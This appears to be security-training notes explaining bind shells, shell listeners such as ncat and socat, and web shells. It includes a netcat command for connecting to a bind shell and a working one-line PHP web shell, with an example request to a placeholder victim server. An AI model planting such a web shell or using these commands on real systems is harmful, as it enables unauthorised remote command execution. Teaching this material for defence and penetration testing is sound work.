### How Bind Shells Work

**Set Up the Bind Shell on the Target**

Create a bind shell payload. Ports below 1024 need to be executed with elevated privileges so use a port higher than that. 

**Attacker Connects to the Bind Shell**

```
nc -nv TARGET_IP 8080
```

## Shell Listeners

- **Rlwrap** a small utility that uses the GNU readline library to provide editing keyboard and history.
- **Ncat**  is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).
- **Socat** allows you to create a socket connection between two data sources, in this case, two different hosts.
	- A socket connection is a software endpoint that enables two programs on a network to communicate, acting as a virtual "doorway" for data exchange



## Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

### Example PHP Web Shell


```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```


The shell can be saved into a file with the PHP extension, like shell.php, and then uploaded into the web server by the attacker by exploiting vulnerabilities such as **Unrestricted File Upload, File Inclusion, Command Injection**, among others, or by gaining unauthorized access to it. 

After the web shell is deployed in the server, it can be accessed through the URL where the web shell is hosted, in this example http://victim.com/uploads/shell.php. As we observed from the code in shell.php, we need to provide a GET method and the value of the variable cmd, which should contain the command the attacker wants to execute. For example, if we want to execute the command whoami the request to the URL should be:
http://victim.com/uploads/shell.php?cmd=whoami
